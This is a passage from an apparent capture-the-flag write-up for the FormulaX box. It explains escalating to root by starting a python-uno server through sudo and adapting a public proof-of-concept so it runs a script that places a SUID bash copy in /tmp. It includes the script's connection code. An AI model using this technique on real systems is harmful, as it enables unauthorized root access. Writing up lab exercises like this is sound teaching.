 ![what is python-uno](/assets/images/FormulaX/what-is-python-uno.png)

Also, in the article I saw before, gives a poc script that lets us execute commands in the python-uno server that I'm able to start because of the sudo privilege of before:

![poc apache uno](/assets/images/FormulaX/PoC-apache-uno.png)

Instead of calc.exe, I will modify it to execute /tmp/suid.sh, which will give suid permissions to a copy of bash in /tmp:

```python
import uno
from com.sun.star.system import XSystemShellExecute
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('--host', help='host to connect to', dest='host', required=True)
parser.add_argument('--port', help='port to connect to', dest='port', required=True)
args = parser.parse_args()
localContext = uno.getComponentContext()
resolver = localContext.ServiceManager.createInstanceWithContext(
"com.sun.star.bridge.UnoUrlResolver", localContext )
print("[+] Connecting to target...")
context = resolver.resolve(
"uno:socket,host={0},port={1};urp;StarOffice.ComponentContext".format(args.host,args.port))
service_manager = context.ServiceManager
print("[+] Connected to {0}".format(args.host))
```